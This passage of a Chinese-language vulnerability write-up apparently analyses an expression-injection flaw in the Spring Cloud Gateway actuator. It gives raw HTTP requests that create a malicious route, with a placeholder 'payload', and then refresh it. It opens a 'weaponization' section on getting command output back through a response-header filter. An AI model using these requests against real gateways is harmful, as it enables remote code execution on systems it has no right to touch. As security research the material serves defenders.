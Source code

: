 <br/>

可以随意选择其中的一个`GatewayFilterFactory`，比如利用`Retry`来修改请求包：

```powershell
POST /actuator/gateway/routes/123456 HTTP/1.1
Host: 127.0.0.1:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 181

{
  "id": "1234567",
  "filters": [{
    "name": "Retry",
    "args": {
"a":"payload"
   }
  }],
  "uri": "http://localhost"
}
```

<br/>

请求后显示路由创建成功。可以通过refresh来生效：

```json
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:9000
Connection: close
```

<br/>

成功触发表达式解析：

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647573597584-9b9bc011-190f-4562-ac76-9e67d0b7945f.png)



### 武器化一：命令回显

<br/>通过调试发现，在refresh路由时会调用对应`GatewayFilter`的`apply`函数。当成功创建新的路由后，可以通过GET请求获取配置信息：

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647573625150-6beef741-5360-4a88-be27-bfbbba9d2664.png)

<br/>回顾前面合法的`GatewayFilter`列表，我们发现存在一个名为`AddResponseHeaderGatewayFilterFactory`的子类：

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647573637082-848734d6-27d1-49ba-a286-8b229ccd2796.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647573647822-ba74606e-4f36-447c-be21-611899cd401f.png)
